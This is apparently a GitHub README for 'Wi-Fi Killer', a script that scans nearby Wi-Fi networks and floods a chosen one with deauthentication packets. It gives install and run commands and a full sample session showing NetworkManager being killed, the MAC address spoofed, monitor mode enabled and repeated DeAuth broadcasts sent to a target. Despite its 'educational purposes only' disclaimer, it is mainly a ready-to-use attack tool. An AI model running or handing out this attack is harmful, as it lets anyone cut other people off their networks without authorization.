 # 🚀 Wi-Fi Killer - Deauthentication Script

## ⚡ What is it?

Wi-Fi Killer is a simple tool that lets you perform a **deauthentication attack** on Wi-Fi networks. 🛠️ It sends packets to disconnect devices from a target network (BSSID). Only use it on networks you own or have explicit permission to attack! 🚨

💥 **Warning**: This script is for **educational purposes only**! Misusing it could get you in legal trouble. 🏴‍☠️

---

## 🛠️ Features

- 🏙️ **Scan networks** and see their details (SSID, BSSID, channel, etc.)
- 💣 **Deauth attack**: Disconnect devices from a selected Wi-Fi network
- 🕵️‍♂️ **Anonymize your MAC** address for privacy
- 🔄 **Change channels** to target specific networks more easily
- 🚫 **Stop NetworkManager** to prevent automatic mode-switching

---

## 🔥 Requirements

Before you can use this script, you'll need to install some tools:

- aircrack-ng 🔐
- macchanger 🛡️
- iw 📡
- libncurses5-dev 🎮
- libpcap-dev 🕹️
- Python 3 + pip 🐍

You'll also need to install the `tabulate` library:

```bash
pip3 install tabulate
```
Get it up and running in just a few steps! 🎉

Clone the repo:
```bash
git clone https://github.com/thisudo/wifi-Deauthentication-script
cd wifi-Deauthentication-script
sudo bash install.sh
```
This will set up all your dependencies:

🏃‍♂️ Usage
Run the script:
```bash
sudo python3 wifi_killer.py
```
Pick your interface (e.g., wlan0).

Scan networks and pick the BSSID of the target you want to attack. 💥

Confirm the channel and start the attack. 💣

Hit Ctrl+C to stop the attack and clean everything up. 🔚

## Exemple on ubuntu
```bash
██╗    ██╗██╗      ███████╗██╗    ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗ 
██║    ██║██║      ██╔════╝██║    ██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗
██║ █╗ ██║██║█████╗█████╗  ██║    █████╔╝ ██║██║     ██║     █████╗  ██████╔╝
██║███╗██║██║╚════╝██╔══╝  ██║    ██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗
╚███╔███╔╝██║      ██║     ██║    ██║  ██╗██║███████╗███████╗███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝      ╚═╝     ╚═╝    ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                                                       by: abdo3Dr 
[!] Wi-Fi Deauthentication Script [!]                
    For educational purposes only!
    Use at your own risk on your own network!
    I am not responsible for any misuse!

**************************************************
[INFO] Scan networks and launch deauth attack.
[WARNING] Only use this on networks you own!
**************************************************
lo        no wireless extensions.

eno1      no wireless extensions.

wlp2s0    IEEE 802.11  ESSID:"<HIDDEN_SSID>"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: <HIDDEN_BSSID>   
          Bit Rate=58.5 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          Link Quality=46/70  Signal level=-64 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:97   Missed beacon:0

docker0   no wireless extensions.

[?] Enter your INTERFACE: wlp2s0
+-------------------+----------------------------+---------+-----------------------+------------+
|       BSSID       |            SSID            | Channel | Signal Strength (dBm) | Encryption |
+-------------------+----------------------------+---------+-----------------------+------------+
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_1>      |   48    |          -77          |    Yes     |
| <HIDDEN_BSSID>    |      <HIDDEN_SSID_2>       |   11    |          -57          |    Yes     |
| <HIDDEN_BSSID>    |         <HIDDEN_SSID_3>    |    9    |          -73          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_4>         |    3    |          -54          |    Yes     |
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_5>     |    1    |          -65          |    Yes     |
| <HIDDEN_BSSID>    |     <HIDDEN_SSID_6>        |    2    |          -71          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_7>         |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_8>  |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_9>  |    7    |          -81          |    Yes     |
| <HIDDEN_BSSID>    | <HIDDEN_SSID_10>           |    1    |          -87          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_11> |   40    |          -86          |    Yes     |
+-------------------+----------------------------+---------+-----------------------+------------+

 [?] Enter the Wi-Fi BSSID to attack: <HIDDEN_BSSID>
Disconnecting from the AP...
[*] Killing interfering processes...

Killing these processes:

    PID Name
  30183 NetworkManager
  30193 wpa_supplicant
  30839 avahi-daemon
  30842 avahi-daemon

[*] Anonymizing MAC address...
Current MAC:   <HIDDEN_MAC> (unknown)
Permanent MAC: <HIDDEN_MAC> (Intel Corporate)
New MAC:       <HIDDEN_MAC> (unknown)
[+] MAC address anonymized.
[*] Enabling monitor mode on wlp2s0...

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
  30858 avahi-daemon
  30860 avahi-daemon

PHY	Interface	Driver		Chipset

phy0	wlp2s0		iwlwifi		Intel Corporation Centrino Advanced-N 6200 (rev 35)
		(monitor mode enabled)

[+] Monitor mode enabled on wlp2s0.
Changing channel to 11...
Sending deauthentication packets to BSSID: <HIDDEN_BSSID>
06:46:28  Waiting for beacon frame (BSSID: <HIDDEN_BSSID>) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:35  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
```

🏃‍♂️ Usage
Once you’ve finished with the attack, you can return the Wi-Fi card to managed mode by running the following commands:

```bash
sudo airmon-ng stop <interface>
sudo systemctl restart NetworkManager
```
This will stop the monitor mode on your Wi-Fi interface and restart the NetworkManager service to get everything back to normal. 🔄


✍️ Author
Abdo3Dr
